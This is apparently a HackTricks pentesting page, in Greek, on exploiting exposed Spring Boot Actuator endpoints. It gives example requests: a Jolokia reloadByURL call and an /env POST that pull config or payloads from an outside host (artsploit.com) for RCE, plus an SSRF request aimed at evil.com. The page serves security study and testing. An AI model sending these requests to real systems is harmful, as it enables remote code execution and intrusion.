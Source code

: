 # Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Spring Auth Bypass**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**Από** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)

## Εκμετάλλευση Spring Boot Actuators

**Ελέγξτε την αρχική ανάρτηση από** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Βασικά Σημεία:**

- Οι Spring Boot Actuators καταχωρούν endpoints όπως `/health`, `/trace`, `/beans`, `/env`, κ.λπ. Σε εκδόσεις 1 έως 1.4, αυτά τα endpoints είναι προσβάσιμα χωρίς αυθεντικοποίηση. Από την έκδοση 1.5 και μετά, μόνο τα `/health` και `/info` είναι μη ευαίσθητα από προεπιλογή, αλλά οι προγραμματιστές συχνά απενεργοποιούν αυτή την ασφάλεια.
- Ορισμένα endpoints Actuator μπορεί να εκθέσουν ευαίσθητα δεδομένα ή να επιτρέψουν επιβλαβείς ενέργειες:
- `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, και `/heapdump`.
- Στο Spring Boot 1.x, οι actuators καταχωρούνται κάτω από τη ρίζα URL, ενώ στο 2.x, είναι κάτω από τη βασική διαδρομή `/actuator/`.

### **Τεχνικές Εκμετάλλευσης:**

1. **Απομακρυσμένη Εκτέλεση Κώδικα μέσω '/jolokia'**:
- Το endpoint `/jolokia` εκθέτει τη βιβλιοθήκη Jolokia, η οποία επιτρέπει HTTP πρόσβαση σε MBeans.
- Η ενέργεια `reloadByURL` μπορεί να εκμεταλλευτεί για να επαναφορτώσει τις ρυθμίσεις καταγραφής από μια εξωτερική διεύθυνση URL, κάτι που μπορεί να οδηγήσει σε τυφλό XXE ή απομακρυσμένη εκτέλεση κώδικα μέσω κατεργασμένων XML ρυθμίσεων.
- Παράδειγμα URL εκμετάλλευσης: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Τροποποίηση Ρυθμίσεων μέσω '/env'**:

- Εάν υπάρχουν βιβλιοθήκες Spring Cloud, το endpoint `/env` επιτρέπει την τροποποίηση των περιβαλλοντικών ιδιοτήτων.
- Οι ιδιότητες μπορούν να χειραγωγηθούν για να εκμεταλλευτούν ευπάθειες, όπως η ευπάθεια αποσυμπίεσης XStream στην υπηρεσία Eureka serviceURL.
- Παράδειγμα αίτησης POST εκμετάλλευσης:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```

3. **Άλλες Χρήσιμες Ρυθμίσεις**:
- Ιδιότητες όπως `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, και `spring.datasource.tomcat.max-active` μπορούν να χειραγωγηθούν για διάφορες εκμεταλλεύσεις, όπως SQL injection ή τροποποίηση συμβολοσειρών σύνδεσης βάσης δεδομένων.

### **Επιπλέον Πληροφορίες:**

- Μια ολοκληρωμένη λίστα με τους προεπιλεγμένους actuators μπορεί να βρεθεί [εδώ](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
- Το endpoint `/env` στο Spring Boot 2.x χρησιμοποιεί μορφή JSON για την τροποποίηση ιδιοτήτων, αλλά η γενική έννοια παραμένει η ίδια.

### **Σχετικά Θέματα:**

1.  **Env + H2 RCE**:
- Λεπτομέρειες σχετικά με την εκμετάλλευση του συνδυασμού του endpoint `/env` και της βάσης δεδομένων H2 μπορούν να βρεθούν [εδώ](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).

2.  **SSRF στο Spring Boot μέσω Λάθους Ερμηνείας Διαδρομής**:
- Η διαχείριση παραμέτρων μήτρας (`;`) από το πλαίσιο Spring σε διαδρομές HTTP μπορεί να εκμεταλλευτεί για Server-Side Request Forgery (SSRF).
- Παράδειγμα αίτησης εκμετάλλευσης:
```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{{#include ../../banners/hacktricks-training.md}}




{{#include /banners/hacktricks-training.md}}
